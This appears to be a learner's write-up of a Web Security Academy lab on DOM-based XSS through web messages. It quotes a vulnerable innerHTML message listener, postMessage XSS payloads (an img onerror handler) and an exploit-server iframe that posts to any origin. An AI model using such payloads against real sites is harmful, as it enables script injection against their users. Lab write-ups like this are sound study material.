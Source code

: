 - [What is DOM-based vulnerabilites?](#what-is-dom-based-vulnerabilites)
- [DOM XSS using web messages](#dom-xss-using-web-messages)
- [DOM XSS using web messages and a JavaScript URL](#dom-xss-using-web-messages-and-a-javascript-url)
- [DOM XSS using web messages and `JSON.parse`](#dom-xss-using-web-messages-and-jsonparse)
- [DOM-based open redirection](#dom-based-open-redirection)
- [DOM-based cookie manipulation](#dom-based-cookie-manipulation)
- [Exploiting DOM clobbering to enable XSS](#exploiting-dom-clobbering-to-enable-xss)
- [Clobbering DOM attributes to bypass HTML filters](#clobbering-dom-attributes-to-bypass-html-filters)

---

# What is DOM-based vulnerabilites?

Is when an application use JavaScript to manipulate the DOM in a unsafe manner. Usually we can inject code or redirect users to mailicous sites.

# DOM XSS using web messages

In the source code of this lab we found this script:

```js
window.addEventListener('message', function(e) { document.getElementById('ads').innerHTML = e.data; })
```

- `window.addEventListener('message')` -> Listen messages "postMessage" from iframes and open windows.
- `e.data` -> Contain the content of the sending message.
- `document.getElementById('ads').innerHTML = e.data;` -> Locate an element with the id 'ads' and insert the data of the postMessage. The dangerous sink is **innerHTML**.

postMessage is the "secure way" to how a iframe or other windows communicate to the parent page.

In the console you can try:

```js
postMessage("<script>print()</script>")
```

But is undefined and nothing work, what if you try with a image:

```js
postMessage("<img src=x onerror=print()>")
```

Ouh, we have to reproduce this but the user it's not goint to put this in the console, we have to go to exploit server:

```html
<iframe src="https://0a9500ae03c62b068039580c00730066.web-security-academy.net/" style="width:100%;height:100%;border:none" onload="this.contentWindow.postMessage('Testing', '*')"></iframe>
```

If you read this [page](https://developer.mozilla.org/es/docs/Web/API/Window/postMessage), you see that you can use `*` that means that the message can be send to a receiver with any origin.

